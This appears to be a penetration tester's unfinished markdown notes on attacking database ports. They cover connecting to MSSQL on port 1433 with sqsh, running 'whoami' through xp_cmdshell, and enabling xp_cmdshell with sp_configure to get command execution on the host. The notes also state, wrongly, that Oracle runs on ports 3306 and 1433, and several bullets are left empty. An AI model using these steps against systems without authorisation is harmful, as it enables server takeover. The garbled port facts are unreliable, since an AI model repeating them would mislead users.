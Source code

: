 
# Oracle DB 
- **can run on a variety or ports including: 3306, 1433**

## What is it?
- a port used to connect to a target's database
- authenticated users (and maybe unauthenticated users) could, for example, run queries

## Enumeration
- use odat
  - setup is terrible but directions will be included inside here
  - 


## Port 1433 SQL
- gaining a connection
  - unless you brute force, you'll probably need to enumorate a username and password
  - sqsh -S [ip] -U [username] 
    - will prompt you for password after this

    
  ### sqsh Shell commands
    - xp_cmdshell 'whoami';
    - go
    - might have to enable xp_cmdshell
      - EXEC sp_configure 'show advanced options', 1;
      - RECONFIGURE
      - EXEC sp_configure 'xp_cmdshell', 1;
      - RECONFIGURE
    - 
  


